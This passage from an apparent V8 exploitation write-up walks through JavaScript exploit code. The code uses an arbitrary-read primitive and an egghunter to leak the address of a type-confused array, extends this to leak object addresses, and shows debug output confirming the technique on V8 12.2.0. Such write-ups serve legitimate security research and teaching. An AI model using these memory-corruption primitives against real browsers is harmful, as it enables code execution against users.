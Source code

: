 Next it would be a good idea to leak the value of the `type_confused_array`. We can do this by creating a marker and then searching proc memory to find it. It's basically a egghunter.

```javascript
let egg;
let leaked_data;

egg = 0x7730307477303074n 
fake_arr_struct[0] = itof(egg);
let leaked_addr = 0x4a000n; // this value was used in the exploit :D
for (let i = 0; i < 0x1000; i++){
	leaked_data = ftoi(arb_read(leaked_addr));
	if (leaked_data == egg) {
		break; 
	}
	leaked_addr += 4n;
}
leaked_addr += 8n;

console.log('[+] address of type_confused_array: ' + hex(leaked_addr));
```

As we are using element 0 for egghunting we need to shift the offsets in the read and write by 1.

Running the poc we see it works!
```javascript
[+] V8 base: 0x1ab00000000
[+] address of type_confused_array: 0x4a04c
V8 version 12.2.0 (candidate)
d8> % DebugPrint(type_confused_array)
DebugPrint: 000001AB0004A04D: [JSArray]
```

We can also expand this to read the location of random objects by adding an object array to `type_confused_array` 

```js
let type_confused_array;
let obj_array;

b.keys = () => {  
	fake_arr_struct = [1.1, 2.2, 3.3];
	a.add(32);
	obj_array = [{}];
    return b[Symbol.iterator]();  
}  
```

Then we just do the egg hunt again:
```javascript
egg = leaked_addr + 1n;
obj_array[0] = type_confused_array;
let obj_array_addr = leaked_addr + 0x30n;
for (let i = 0; i < 0x1000; i++){
	leaked_data = ftoi(arb_read(obj_array_addr)) & 0xffffffffn;
	if (leaked_data == egg) {
		break; 
	}
	obj_array_addr += 4n;
}

console.log('[+] address of obj_array[0]: ' + hex(leaked_addr));
```
